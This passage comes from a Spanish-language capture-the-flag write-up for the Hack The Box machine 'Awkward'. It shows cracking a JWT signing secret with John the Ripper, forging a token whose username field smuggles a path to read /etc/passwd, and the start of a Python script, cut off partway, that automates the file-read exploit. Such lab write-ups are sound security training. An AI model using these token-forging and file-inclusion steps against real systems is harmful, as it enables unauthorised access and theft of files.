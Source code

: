 - Y para proseguir necesitamos la `firma secreta` del usuario en cuestión, la cual podríamos crackear con John.

```bash
$python3 jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc4MTM1NjkxfQ.uTXBwEo7PR-RAFkenpPHWvlC9HD6BmdKsdRXYsfNshI > /home/dante/HTB/Awkward/content/jwt.hash

$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt jwt.hash
```

```js
Press 'q' or Ctrl-C to abort, almost any other key for status
123beany123      (?)
1g 0:00:00:04 DONE (2023-03-06 16:39) 0.2004g/s 2672Kp/s 2672Kc/s 2672KC/s 123wau..1234ถ6789
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

- Ya con la firma secreta podemos continuar generando la cookie en [JSON Web Tokens - jwt.io](https://jwt.io/) , pegamos la contraseña de firma secreta y tendremos generada la estructura de cookie que usaremos:

```js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzgxMzU2OTF9.VQjDx0VG4ZP4R6XOHAvKiGlNGiOqyEKJjd-5Q41bzQ0
```

- En el Repeater de Burpsuite, hacemos la petición GET a http://hat-valley.htb/api/all-leave pasándole como `cookie` la que hemos generado y deberíamos obtener el contenido del "/etc/passwd" confirmando así un LFI.

```js
GET /api/all-leave HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzgxMzU2OTF9.VQjDx0VG4ZP4R6XOHAvKiGlNGiOqyEKJjd-5Q41bzQ0
Upgrade-Insecure-Requests: 1
```

- Para hacer este LFI mucho más cómodo y poder generar la cookie por cada archivo que quereamos buscar de forma automática, podríamos crear una `script en Python`:

```bash
$nano jwtLFI.py
```

```python
#!/usr/bin/python3

import sys, requests, jwt

if len(sys.argv) <2:
	print (f"\nUso: python3 {sys.argv[0]} <archivo a buscar>\n")
	print ("-d: Descargar archivo en el directorio actual\n")
	exit(1)

file = sys.argv[1]

#Definición de la función que se encarga de estructurar la cookie para convertirla en JWT
def makeCookieJWT(file= str) -> str:
	payload={"username":"/' {} '/".format(file), "iat": 1678135691}
	secret= "123beany123"
	token= jwt.encode(payload,secret)
```